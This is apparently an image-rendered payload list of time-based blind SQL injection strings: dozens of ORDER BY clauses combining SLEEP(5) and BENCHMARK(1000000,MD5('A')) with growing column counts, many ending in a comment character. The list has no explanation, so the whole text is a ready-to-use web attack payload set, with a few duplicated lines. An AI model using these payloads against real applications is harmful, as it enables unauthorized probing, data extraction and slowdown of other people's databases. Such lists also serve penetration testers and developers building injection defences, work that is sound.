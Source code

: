      ORDER BY SLEEP(5)
     ORDER BY 1,SLEEP(5)
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
     ORDER BY SLEEP(5)#
     ORDER BY 1,SLEEP(5)#
     ORDER BY 1,SLEEP(5),3#
     ORDER BY 1,SLEEP(5),3,4#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#